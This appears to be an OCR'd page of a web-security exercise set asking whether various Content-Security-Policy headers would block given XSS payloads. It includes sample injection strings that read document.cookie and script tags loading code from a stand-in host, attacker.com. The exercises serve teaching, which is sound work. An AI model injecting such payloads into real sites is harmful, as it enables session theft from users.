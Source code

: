   ```http
  Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval'; connect-src 'self'; img-src 'self'; style-src 'self';
  ```

  ```html
  <script>alert(document.cookie)</script>
  ```

12. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval'; connect-src 'self'; img-src 'self'; style-src 'self';
  ```

  ```html
  <script>eval('alert(document.cookie)')</script>
  ```

13. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: default-src *; script-src 'self'; connect-src *; img-src *; style-src *;
  ```

  ```html
  <script src='https://attacker.com/xss.js'></script>
  ```

14. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: default-src 'none'; script-src 'self' https:; connect-src 'none'; img-src 'none'; style-src 'none';
  ```

  ```html
  <script src='https://attacker.com/xss.js'></script>
  ```

15. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: script-src 'self' 'nonce-bmV0c3BhcmtlciBydWxlcyA7KQ==';
  ```

  ```html
  <script>alert(document.cookie)</script>
  ```

16. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: script-src 'self' 'nonce-bmV0c3BhcmtlciBydWxlcyA7KQ==';
  ```
